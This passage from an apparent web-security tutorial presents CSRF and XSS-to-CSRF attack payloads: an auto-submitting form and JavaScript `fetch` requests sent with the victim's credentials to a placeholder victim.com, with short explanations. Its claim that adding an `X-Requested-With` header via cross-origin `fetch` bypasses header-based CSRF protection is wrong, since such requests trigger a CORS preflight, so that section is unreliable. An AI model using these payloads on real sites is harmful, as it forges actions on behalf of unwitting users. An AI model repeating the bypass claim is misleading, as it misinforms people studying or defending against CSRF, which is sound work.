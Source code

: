 ```html
      form.submit();
    </script>
  </body>
</html>
```

#### **How It Works:**
- The victim’s browser submits the form programmatically, sending the payload to the target server.

---

### **C. Advanced CSRF with Headers**
Some applications rely on specific HTTP headers (e.g., `X-Requested-With`) for CSRF protection. Advanced CSRF exploits bypass this by leveraging `XMLHttpRequest` or `fetch`.

#### **Example:**
```html
<html>
  <body>
    <script>
      fetch('http://victim.com/endpoint', {
        method: 'POST',
        credentials: 'include',
        headers: {
          'X-Requested-With': 'XMLHttpRequest'
        },
        body: JSON.stringify({ key: 'value' })
      });
    </script>
  </body>
</html>
```

#### **How It Works:**
- Uses JavaScript to forge the request with custom headers.

---

## **3. CSRF with XSS Chaining**
Chaining CSRF with XSS amplifies the impact by:
- Using XSS to inject malicious scripts.
- Using CSRF to force actions on behalf of an authenticated user.

### **A. XSS to CSRF**
Using XSS to execute CSRF by injecting malicious scripts into a vulnerable application.

#### **Example Payload:**
```html
<script>
  fetch('http://victim.com/submit', {
    method: 'POST',
    credentials: 'include',
    body: JSON.stringify({ key: 'malicious_value' })
  });
</script>
```

